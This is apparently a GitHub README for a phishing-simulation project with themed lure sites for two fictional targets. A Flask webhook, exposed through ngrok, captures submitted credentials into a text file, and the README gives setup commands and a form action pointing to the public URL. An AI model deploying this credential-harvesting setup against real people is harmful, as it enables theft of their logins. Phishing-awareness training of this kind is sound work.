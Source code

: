 


![Lets do it](https://github.com/user-attachments/assets/407a6ca6-84d2-4869-9928-8fb3bfe34486)

## Phishing Simulation Project

This project involves setting up themed websites for two fictional characters, Bob (dog lover) and Alice (car enthusiast), and capturing submitted credentials via a Flask webhook.


### Project Structure
```plaintext
Phishing.project/
├── bob_site/ (Dog-themed website)
├── alice_site/ (Car-themed website)
├── webhook_server/ (Flask server to capture data)
└── README.md
```

## **Setup Instructions**

### **1. Prerequisites**
- Python 3.6+
- Flask
- Ngrok


   ```
### Steps

1. **Run the Webhook Server**
   ```bash
   cd webhook_server
   python webhook.py
   ```

2. **Expose Local Server Using Ngrok**
   ```bash
   ngrok http 5000
   ```
   Update the form `action` in `index.html` with the Ngrok public URL:
   ```html
   <form action="http://your-ngrok-url/webhook" method="POST">
   ```

3. **Serve the Websites**
   ```bash
   cd bob_site
   python -m http.server 8080
   ```
   Visit `http://127.0.0.1:8080` in your browser.

4. **Test and Capture Credentials**
   Submit test credentials on the websites. Captured credentials will be saved in `credentials.txt`.


### **5. Test the Setup**

1. Open the website in a browser.
2. Enter test credentials and submit the form.
3. Check the `credentials.txt` file in the `webhook_server` directory for captured credentials.

---

## **Troubleshooting**

### Common Issues

#### 1. **404 Error on `/webhook` Route**
- Ensure the form’s `action` URL matches the Flask route (`/webhook`).
- Verify Flask is running and listening on port 5000.

#### 2. **`credentials.txt` Not Updated**
- Confirm `webhook.py` has permission to write to `credentials.txt`.
- Manually create an empty `credentials.txt` file in the `webhook_server` directory and ensure it is writable.

---

## **Project Components**

### Flask Webhook Server (`webhook.py`)
- Captures form data and writes credentials to `credentials.txt`.

### Bob’s and Alice’s Websites
- Custom HTML and CSS themes designed to appeal to each target.

---


